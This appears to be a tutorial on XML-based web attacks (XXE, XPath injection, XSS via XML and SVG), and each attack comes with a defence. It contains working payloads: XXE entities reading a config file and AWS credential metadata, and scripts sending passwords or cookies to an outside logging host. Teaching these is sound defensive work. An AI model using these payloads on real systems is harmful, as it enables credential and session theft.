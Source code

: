 # XML Attack

## XXE Attack
**Description**  
XXE stands for XML External Entity.
1. Attacker defines an xxe in an XML file.
2. External file can point to a sensitive file (e.g. database.yml).
3. XML file with an external entity is uploaded and processed by the web application.
4. The content of the sensitive file is returned to the attacker,

**Case Analysis**  
An example of evil XML is shown below. Attacker can see the content of database.yml in the description of Product2 by uploading this XML file to the web application.
```
<!DOCTYPE doctype [
  <!ENTITY myentity SYSTEM "database.yml">
]>

<sell>
  <product>
    <name>Product1</name>
    <price>100</price>
    <description>This is description for Product1.</database>
  </product>
  <product>
    <name>Product2</name>
    <price>200</price>
    <description>&myentity;</database>
  </product>
</sell>
```

**Defend**  
In PHP, one line of code can fix the XXE risk. There are similar methods in other languages.
```
libxml_disable_entity_loader(true)
```
**Advanced Case Analysis**  
Attacker can steal secretAccessKey from AWS by modifying the XXE as follows.
```
<!ENTITY myentity SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access">
```

## XPath Injection
**Description**  
User's controlled data changes the underlying Xpath query.

**Case Analysis**  
Bypass discount code
```
//coupon[code='ABCD' or '*']
Xpath syntax is correct
Find a coupon with an arbitrary valid discount code
The attacker will get for example 50% discount
```
**Defend**  
Data validation: Reject a discount code with non-alphanumeric characters.

## XSS via XML

**Description**  
Attacker can steal user's password by launching an XSS via XML.

**Case Analysis**  
```
<xhtml:html
xmlns:xhtml="http://www.w3.org/1999/xhtml">
  <xhtml:script>
    var pass = prompt("Enter your password to continue");
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://hacking-web-applications.com/log.php?pass="+encodeURI(pass));
    xhr.send();
  </xhtml:script>
</xhtml:html>
```
**Defend**  
Make sure the script included in the XML file is not executed.  
Send the following response header
```
Content-Disposition: attachment; filename="abc.xml"
```
It will force the browser to download file instead of opening it.

## XSS via SVG
**Description**
1. Scripts can be included in SVG files.  
2. Attacker uploads an SVG file with a script.  
3. User visits the SVG file and the script is executed.  
4. Steal some sensitive data from a user

**Case Analysis**  
Attacker can steal user's cookie with session id by the XSS via SVG.
```
<svg xmlns="http://www.w3.org/2000/svg">
  <rect width="300" height="200" fill="#ddd"></rect>
  <line x1="50" y1="100" x2="250" y2="100" stroke="blue" stroke-width="8" />
  <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://hacking-web-applications.com/log.php?pass="+encodeURI(document.cookie));
    xhr.send();
  </script>
</svg>
```
**Defend**  
Add an example following code to the header
```
Content-Disposition: attachment; filename="attachment_zxcadw12xc.svg"
```
This is to force browser download this SVG instead of opening it.
